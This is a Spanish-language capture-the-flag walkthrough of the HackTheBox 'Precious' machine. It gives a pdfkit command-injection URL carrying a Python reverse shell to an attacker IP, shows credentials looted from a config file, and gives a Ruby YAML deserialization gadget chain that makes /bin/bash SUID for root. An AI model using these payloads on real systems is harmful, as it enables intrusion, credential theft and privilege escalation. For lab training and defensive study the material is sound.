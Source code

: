 ```yaml
---
layout: post
title: HackTheBox - Precious
author: c4rta
date: 2023-01-02
##categories: [Maquinas, HackTheBox]
tags: [HTB, Command injection, YAML deserialization]
image: /assets/img/precious/Precious.png
---
```

Para la intrusion tenemos que la web genera PDFs usando pdfkit con una version vulnerable a Command Injection, la cual conduce a un RCE, para la escalada haremos un ataque YAML deserialization
{:.lead}

## Enumeracion

Iniciamos con un escaneo de nmap con el comando:

```
nmap -sS -n -Pn --open -p- 10.10.11.189
```
El cual le estamos diciendo que con:

- sS: haga un TCP SYN Scan el cual hace un escaneo sigiloso sin completar las conexiones TCP, responde con un SYN/ACK si esta abierto

- n: para que no haga resolucion DNS y tarde menos el escaneo

- Pn: para evitar el descubrimiento de hosts

- open: para que solo muestre los puertos abiertos

- -p-: para que escanee todo el rango de puertos

Esto nos reportara 2 puertos abiertos:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Asi que ahora escanearemos para saber la version y servicio que esta corriendo por detras:

```
sudo nmap -sCV -p22,80 10.10.11.189
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Convert Web Page to PDF
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Tenemos el puerto de SSH abierto, pero aun no podemos hacer mucha cosa, y el puerto 80, el cual de primeras nos dice que podemos convertir una pagina web a un pdf: ```http-title: Convert Web Page to PDF```

Si nos dirigimos a la pagina web, podemos ver que esta esperando por una URL, asi que para comprobar que se puede convertir a PDF, iniciaremos un servidor web con python:

```python3 -m http.server 8080```

Y le pasaremos la URL

![](/assets/img/precious/precious1.png)

Y efecto, convierte la pagina a un pdf, y me muestra el contenido de mi directorio /Desktop

![](/assets/img/precious/precious2.png)

En este punto, una buena idea es ver un poco de los metadatos del pdf, usaremos la herramienta ```exiftools``` (aun que por alguna razon no me jala, asi que usare esta [web](https://exif.tools/))

Y podemos ver que para generarlo esta usando pdfkit:

![](/assets/img/precious/precious3.png)

## Command Injection

La version de pdfkit que genero el pdf es la ```v0.8.6```, asi que... Nunca es mala idea buscar si existe un exploit para la version de algo.

Econtre que esa version de vulnerable a ```Command injection``` a travez del parametro ```name``` 

Lee [aqui](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) si quieres saber mas

Asi que intentare ejecutar el comando ```whoami``` para ver si funciona:

```
http://10.10.14.102:8080/?name=%20`whoami`
```

![](/assets/img/precious/precious4.png)

Y una vez sabiendo que si funciona, por lo tanto tenemos Remote Command Execution(RCE), nos mandaremos una reverse shell con python3:

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.102",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Y la URL queda:

```
http://10.10.14.102:8080/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.102",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```
Recuerda editar la IP por la que te dio HTB

## Flag de user

Al lista el contenido podemos ver varios directorios:

```bash
ruby@precious:~$ ls -lha
ls -lha
total 28K
drwxr-xr-x 4 ruby ruby 4.0K Apr 10 16:46 .
drwxr-xr-x 4 root root 4.0K Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3.5K Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4.0K Oct 26 08:28 .bundle
drwxr-xr-x 3 ruby ruby 4.0K Apr 10 16:46 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```

Navegando un poco, encontre que en el directorio ```.bundle``` hay un archivo de configuracion el cual tiene unas credenciales:

```bash
ruby@precious:~/.bundle$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Y recordemos que tenemos el puerto del SSH abierto, asi que nos conectaremos por ssh con las credenciales que nos aparecen ahi.

usuario: henry

contraseña: Q3c1AqGHtoI0aXAYFH

Y ahora si ya podemos ver la flag de user:

```bash
henry@precious:~$ cat user.txt 
8cee1d827eb735217879ec75ce6d2751
```

## Flag de root

Primeramente ingresare el comando ```sudo -l``` para poder ver que podemos ejecutar como root desde el usuario ```henry```

```
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Nos dice que podemos ejecutar el archivo ```update_dependencies.rb```

Asi que vamos a pasar a ver el contenido del archivo:

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
Me doy cuenta que esta intentando cargar un archivo que se llama ```dependencies.yml```, el cual no se le esta indicando la ruta, es decir, que lo trata de cargar desde el directorio actual donde se encuentra el usuario, entonces... ¿Por que no crearlo?, y ademas esta usando la funcion ```YAML.load()``` la cual es vulnerable a un ataque```YAML deserialization``` el cual deriva de un RCE, para saber como explotarlo nos guiaremos de [aqui](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml)

Crearemos un archivo yml con el nombre ```dependencies.yml``` en el directorio actual, con el contenido:

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```

Donde le estamos diciendo que ejecute el comando ```chmod +s /bin/bash``` que le asigna permisos SUID a /bin/bash

Y por ultimo ejecutamos el archivo:

```
sudo /usr/bin/ruby /opt/update_dependencies.rb
```
Y ya somos root:

```bash
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt 
95ff0867c3156b05a0f2d49fc6b1ba48
```

Eso ha sido todo, gracias por leer ❤